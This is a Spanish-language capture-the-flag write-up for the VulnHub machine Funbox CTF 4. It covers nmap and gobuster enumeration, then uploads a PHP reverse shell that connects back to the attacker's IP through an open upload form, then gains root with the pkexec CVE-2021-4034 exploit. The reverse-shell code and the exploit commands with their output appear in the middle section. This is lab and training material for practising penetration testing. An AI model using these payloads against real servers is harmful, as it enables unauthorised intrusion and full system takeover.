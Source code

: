 ```yaml
---
icon: flag
---
```


# Funbox\_CTF\_4 VulnHub

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-07 13:15 CEST
Nmap scan report for 192.168.5.131
Host is up (0.00037s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6:b3:8f:f1:e3:b7:6c:18:ee:31:22:d3:d4:c9:5f:e6 (RSA)
|   256 45:c2:16:fc:3e:a9:fc:32:fc:36:fb:d7:ce:4f:2b:fe (ECDSA)
|_  256 4f:f8:46:72:22:9f:d3:10:51:9c:49:e0:76:5f:25:33 (ED25519)
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3?
143/tcp open  imap    Dovecot imapd
|_imap-capabilities: CAPABILITY
MAC Address: 00:0C:29:CC:EE:88 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 180.78 seconds
```

En la descripcion de `VulnHub` nos comenta el creador que hay algunos directorios en mayusculas, por lo que probare a entrar en el `robots.txt` pero en mayusculas, por lo que vemos si funciona...

```
URL = http://<IP>/ROBOTS.TXT
```

Y vemos lo siguiente...

```
Disallow: upload/



Disallow: igmseklhgmrjmtherij2145236
```

Si entramos en la segunda `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/
```

Veremos un `Forbiden` por lo que le tiraremos un `Gobuster`...

### Gobuster

```shell
gobuster dir -u http://<IP>/igmseklhgmrjmtherij2145236/ -w <WORDLIST> -x html,php,txt -t 50 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.131/igmseklhgmrjmtherij2145236/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/SecList/Web/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
/upload               (Status: 301) [Size: 342] [--> http://192.168.5.131/igmseklhgmrjmtherij2145236/upload/]
/upload.html          (Status: 200) [Size: 297]
/upload.php           (Status: 200) [Size: 319]
/.html                (Status: 403) [Size: 320]
/.php                 (Status: 403) [Size: 319]
```

Vemos varias cosas interesantes...

Si nos vamos a `/upload.php` veremos que podemos subir cualquier archivo, por lo que haremos lo siguiente...

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Creamos un archivo para hacernos una `Reverse Shell` y subimos dicho archivo...

Una vez subido, nos pondra que se subio correctamente y antes de ir al archivo nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Por lo que ahora estando preparados, vamos a la siguiente `URL`...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/
```

Pero nos pondra otro `Forbiden`, pero como sabemos como se llama nuestro archivo que subimos probaremos a ponerlo en la `URL` seguido del `/upload` de la siguiente manera...

```
URL = http://<IP>/igmseklhgmrjmtherij2145236/upload/shell.php
```

Y si hacemos esto, funcionara, por lo que una vez entres dentro, nos creara una `shell` con el usuario `www-data`...

Por lo que la sanitizaremos...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Veremos la siguiente linea...

```
38319     24 -rwsr-xr-x   1 root     root    23376 Jan 18  2016 /usr/bin/pkexec
```

Esto actua como un `/bin/bash` que tiene permisos `SUID`, por lo que haremos lo siguiente...

URL = https://github.com/Almorabea/pkexec-exploit

Esto nos lo llevaremos al servidor victima, ya sea copiando el contenido de `python` o transferirlo con algun comando como `curl` o `wget`, pero como no estan instalados ni `curl` y `wget` haremos otra cosa, si nos acordamos de que anteriormente podemos subir archivos desde la pagina web, subiremos el `.py` desde la pagina web y lo moveremos desde terminal hasta `/tmp` para poder iniciarlo...

Una vez hecho todo eso, haremos lo siguiente...

```shell
chmod +x CVE-2021-4034.py
```

```shell
python3 CVE-2021-4034.py
```

Info:

```
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f9a417d14e8 at 0x7f9a416659b0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# whoami
root
#
```

Y con esto ya seriamos `root`, por lo que leeremos la flag...

> flag.txt (flag\_final)

```
(  _`\              ( )                       (  _`\(_   _)(  _`\ 
| (_(_)_   _   ___  | |_      _          _    | ( (_) | |  | (_(_)
|  _) ( ) ( )/' _ `\| '_`\  /'_`\ (`\/')(_)   | |  _  | |  |  _)  
| |   | (_) || ( ) || |_) )( (_) ) >  <  _    | (_( ) | |  | |    
(_)   `\___/'(_) (_)(_,__/'`\___/'(_/\_)(_)   (____/' (_)  (_)    

Well done ! Made with ❤ by @0815R2d2 ! I look forward to see this screenshot on twitter ;-)
```
